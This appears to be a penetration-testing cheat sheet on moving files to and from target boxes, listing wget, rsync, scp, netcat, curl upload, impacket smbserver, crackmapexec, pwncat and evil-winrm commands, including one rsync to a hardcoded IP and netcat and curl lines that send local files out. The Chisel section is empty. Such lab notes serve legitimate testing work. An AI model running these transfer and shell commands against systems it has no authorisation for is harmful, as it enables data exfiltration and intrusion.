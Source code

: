 ### WGET

Mirror an HTTP server with arbitrary files
```
wget --recursive --no-parent http://${box_ip}/
```

Mirror an FTP server
```
wget -m --user=username --password=password ftp://${box_ip}
```

### rsync

```bash
rsync -a /home/user/Downloads/file.txt root@5.182.18.49:/home/Files
rsync -avz /opt/lulz USER@${box_ip}:/dev/shm/
```

### SCP

```
scp -r ./file.txt REMOTE_USER@${box_ip}:dir/file.txt
scp -r REMOTE_USER@${box_ip}:dir/file.txt ./file.txt

scp -r -i id_rsa ./file.txt REMOTE_USER@${box_ip}:dir/file.txt
scp -r -i id_rsa REMOTE_USER@${box_ip}:dir/file.txt ./file.txt
```

### Netcat

On your server (A):
```bash
nc -l -p 1234 -q 1 > something.zip < /dev/null
```

On your "sender client" (B):

```bash
cat something.zip | netcat server.ip.here 1234
```

### Curl

```bash
curl http://${box_ip}/FILENAME -o FILENAME

curl -u USERNAME:PASSWORD http://${box_ip} -o FILENAME

curl ftp://${box_ip}/FILENAME -user USERNAME:PASSWORD -o FILENAME

curl -T FILENAME ${box_ip} -user USERNAME:PASSWORD

curl -F ‘data=@path/to/local/file’ ${box_ip}

curl -F 'img_avatar=@/home/file.txt' http://${box_ip}/upload

curl -F 'fileX=@/path/to/fileX' -F 'fileY=@/path/to/fileY' ... http://${box_ip}/upload

curl -F 'files[]=@/path/to/fileX' -F 'files[]=@/path/to/fileY' ... http://${box_ip}/upload
```

### Chisel

[get chisel here](https://github.com/jpillora/chisel/)
```
```

### SMB server

```bash
sudo python3 ${imp_dir}/smbserver.py -smb2support -username <SHARE_USER> -password <SHARE_PASS> -ip $attack_ip <SHARE_NAME> <SHARE_PATH>
```


### Crackmapexec

```bash
docker run -it --entrypoint=/bin/sh --name crackmapexec -v ~/.cme:/root/.cme byt3bl33d3r/crackmapexec
```

### PWNCat
```bash
docker run -v "./":/work -t pwncat ${box_ip} LPORT
```

### EvilWinRM

```bash
export scripts_dir='/opt/server/ps_scripts/'; export exe_dir='/opt/server/exe/'; docker run --rm -ti --name evil-winrm -v ${scripts_dir}:/ps1_scripts -v ${exe_dir}:/exe_files -v ${pwd}:/data oscarakaelvis/evil-winrm
```
